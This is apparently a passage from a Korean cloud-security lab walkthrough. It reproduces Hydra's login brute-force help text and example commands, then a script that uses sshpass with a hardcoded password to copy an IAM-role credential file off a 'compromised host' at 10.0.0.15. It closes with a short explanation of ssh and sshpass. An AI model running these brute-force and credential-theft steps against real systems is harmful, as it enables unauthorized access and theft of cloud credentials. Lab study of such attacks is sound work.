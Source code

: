 ```
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)
These services were not compiled in: afp firebird memcached mongodb ncp oracle radmin2 rdp sapr3 smb2 and regex support.

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
  ```
  
### 2-3 Compromised Host의 IAM Role 임시 자격증명 탈취

```
 # make script to get AWS credential of Compromised Host
cat <<EOT >> /home/ubuntu/get-credential.sh

#!/bin/bash
/usr/bin/sshpass -p "hackedPassword123!" scp -o StrictHostKeyChecking=no -r hackeduser@10.0.0.15:/home/hackeduser/found-credential.sh /home/ubuntu/set-credential.sh
chmod 744 /home/ubuntu/set-credential.sh
chown ubuntu /home/ubuntu/set-credential.sh
EOT


chmod 744 /home/ubuntu/get-credential.sh
chown ubuntu /home/ubuntu/get-credential.sh
```
다음 스크립트를 통해, Compromised Host에 구성된 IAM Role의 임시 자격증명을 탈취합니다.

```
sshpass란 다른 컴퓨터에 바로 ssh 연결을 할 수 있고, 연결된 컴퓨터에서 명령어를 실행할 수 있는 기능을 말합니다. 즉, 다른 컴퓨터에 ssh연결을 한 뒤, 명령어까지 실행할 수 있는 기능입니다. sshpass는 ssh에서 파생된 기능입니다. ssh는 Secure Sheel Protocol의 약자로, 컴퓨터와 컴퓨터가 Public Network를 통해 서로 보안적으로 안전하게 통신하기 위한 프로토콜입니다. ssh는 데이터를 전송하거나, 원격 제어를 할때 많이 사용됩니다.
```
